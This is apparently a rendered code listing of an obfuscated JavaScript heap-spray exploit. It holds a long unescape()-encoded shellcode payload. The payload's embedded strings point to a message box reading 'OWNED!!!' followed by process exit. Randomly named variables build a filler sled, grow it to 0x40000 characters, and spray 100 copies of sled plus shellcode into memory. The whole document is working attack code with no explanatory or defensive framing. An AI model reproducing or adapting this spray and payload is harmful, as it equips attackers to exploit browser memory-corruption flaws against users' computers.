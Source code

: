 ```js
var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");

ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length

while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;

UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);

while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkru+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;

DPwxazRhwbQGu = new Array();

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

```